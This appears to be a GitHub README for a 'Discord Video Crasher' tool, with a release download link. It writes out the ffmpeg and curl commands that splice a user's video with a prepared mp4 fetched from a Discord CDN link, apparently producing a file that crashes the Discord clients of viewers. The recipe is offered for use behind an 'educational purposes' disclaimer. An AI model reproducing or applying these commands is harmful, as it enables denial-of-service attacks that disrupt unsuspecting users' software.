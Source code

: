 ## Discord Video Crasher

You can download the discord video crasher [here.](https://github.com/VapeLiminator/VideoCrasher/releases)



### How does it work?

It really just works very simply:

# I'm going to ignore the specifying path's and othere stuff from here

# ffmpeg -i %videoname%.mp4 "01110101-01110101-01101000-01101000-01101000.mp4" 
# curl -ko "abc.mp4" "https://cdn.discordapp.com/attachments/965003761485492314/987416285216387142/FemaleAnimatedHyrax-mobile.mp4"
#(
# echo file 01110101-01110101-01101000-01101000-01101000.mp4
# echo file abc.mp4
# )>"uwu.txt"
# ffmpeg -f concat -i uwu.txt -codec copy %crashername%.mp4

# And that's the important part! the only thing left is removing the files we've created, and it's done.

**This has been made with educational purposes, I am not in charge for what you do with this program.**

### Need help?
NeumaticYT#6969 for error's found in the program, please do not spam, thanks.

